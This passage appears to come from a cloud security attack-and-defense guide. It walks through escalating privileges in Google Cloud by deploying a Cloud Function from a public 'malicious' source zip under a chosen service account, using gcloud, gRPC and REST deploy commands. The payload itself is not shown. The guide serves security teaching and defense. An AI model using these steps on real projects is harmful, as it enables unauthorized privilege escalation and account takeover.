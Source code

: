 ```python
#filename: requirements.txt
requests
```

We will keep the non malicious code the same.

```python
#Non-Malicious Source Code
#filename: main.py
import requests

def anirban(request):
    request_json = request.get_json()
    if request.args and 'message' in request.args:
        return request.args.get('message')
    elif request_json and 'message' in request_json:
        return request_json['message']
    else:
        return f'Hello World!'
```

```python
#filename: requirements.txt
requests
```
Once again, deploy the Cloud Function but this time with the above modified "Malicious Code". Pack the Modified Malicious Source Code (main.py) and requirements.txt into a zip file and upload it to a different Cloud Storage Account you have full access to and make it public. Copy the gsutil link of the modified malicious zip file.

Once you have the gsutil URI of the modified malicious zip file go ahead Deploy a Function via any method (gCloud or Cloud Function API)

Command to [deploy Cloud Function via gCloud](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-gcloud):
```powershell
gcloud functions deploy <function-name> --runtime=python38 --source=<gs-link-of-modified-malicious-sourcecode> --entry-point=<function-entrypoint> --trigger-http --service-account=<service-account-email>
```

Command to [deploy Cloud Function via Cloud Function API (gRPC)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-grpc):
```powershell
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function-name> --gsutil-uri <gs-link-of-modified-malicious-sourcecode> --function-entry-point <entry-point> --service-account <sa-account> --deploy
```

Command to [deploy Cloud Function via Cloud Function API (REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/CloudFunction/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-rest):
```powershell
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"name\":\"projects/<project-id>/locations/<region>/functions/<function-name>\",\"entryPoint\":\"<function-entrypoint>\",\"runtime\":\"python38\",\"serviceAccountEmail\":\"<service-account-email>\",\"sourceArchiveUrl\":\"<gs-link-of-modified-malicious-sourcecode>\",\"httpsTrigger\":{}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions?alt=json
```
